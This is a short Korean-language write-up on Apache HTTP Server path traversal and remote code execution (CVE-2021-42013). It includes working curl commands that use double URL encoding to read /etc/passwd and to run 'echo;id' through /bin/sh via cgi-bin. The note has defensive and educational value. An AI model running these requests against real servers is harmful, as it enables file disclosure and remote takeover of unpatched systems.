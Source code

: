 ---

**Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.50 (CVE-2021-42013)**

CVE-2021-42013은 CVE-2021-41773의 불완전한 수정으로 인해 발생한 취약점이다.

Apache는 ../ 문자열을 차단하지만 URL 인코딩을 통해 우회가 가능했다. 

2.4.49 버전에서 해당 취약점을 조치했지만, URL 더블 인코딩으로 또 한번 우회가 가능했다.

이 취약점은 Apache HTTP Server 2.4.49와 2.4.50버전에서 발생하며, 이전 버전에서는 발생하지 않는다.

해당 취약점을 통해 서버 내의 파일들을 읽어 낼 수 있다.

```bash
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1ee8e990-ed1c-4dfe-82b2-0ea562b33f3a/6616524b-ecd7-4c5a-bed4-1a36e7723bee/Untitled.png)

Apache HTTP 서버에서 mod_cgi 모듈을 사용하도록 설정한 경우 원격 코드가 실행될 수 있는 취약점이 추가로 존재한다.

이를 통해 공격자는 HTTP POST 요청을 통해 시스템의 바이너리를 호출할 수 있다.

아래 HTTP POST 요청을 보면 /bin/sh가 echo;id를 실행하는 시스템 바이너리임을 알 수 있으며, 이에 대한 응답으로 id 명령어의 출력을 출력한다.

```bash
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1ee8e990-ed1c-4dfe-82b2-0ea562b33f3a/cb3205b0-1614-4a6f-af99-0b2b523e45b1/Untitled.png)

